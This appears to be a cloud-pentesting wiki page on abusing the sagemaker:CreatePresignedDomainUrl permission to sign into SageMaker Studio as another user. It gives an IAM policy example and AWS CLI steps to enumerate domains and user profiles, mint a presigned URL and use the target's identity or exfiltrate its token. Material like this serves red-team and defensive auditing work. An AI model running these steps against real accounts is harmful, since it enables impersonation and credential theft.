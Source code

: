 **Requirements**:
- A SageMaker Studio `Domain` and a target `UserProfile` within it.
- The attacker principal needs `sagemaker:CreatePresignedDomainUrl` on the target `UserProfile` (resource‑level) or `*`.

Minimal policy example (scoped to one UserProfile):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "sagemaker:CreatePresignedDomainUrl",
      "Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
    }
  ]
}
```

**Abuse Steps**:

1) Enumerate a Studio Domain and UserProfiles you can target
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```

2) Check if unified studio is not being used (attack only works on traditional SageMaker Studio domains)
```bash
aws sagemaker describe-domain --domain-id <DOMAIN_ID> --query 'DomainSettings'
# If you get info about unified studio, this attack won't work
```

3) Generate a presigned URL (valid ~5 minutes by default)
```bash
aws sagemaker create-presigned-domain-url \
  --domain-id $DOM \
  --user-profile-name $TARGET_USER \
  --query AuthorizedUrl --output text
```

4) Open the returned URL in a browser to sign into Studio as the target user. In a Jupyter terminal inside Studio verify the effective identity or exfiltrate the token:
```bash
aws sts get-caller-identity
```

Notes:
- `--landing-uri` can be omitted. Some values (e.g., `app:JupyterLab:/lab`) may be rejected depending on Studio flavor/version; defaults typically redirect to the Studio home and then to Jupyter.
- Org policies/VPC endpoint restrictions may still block network access; the token minting does not require console sign‑in or `iam:PassRole`.
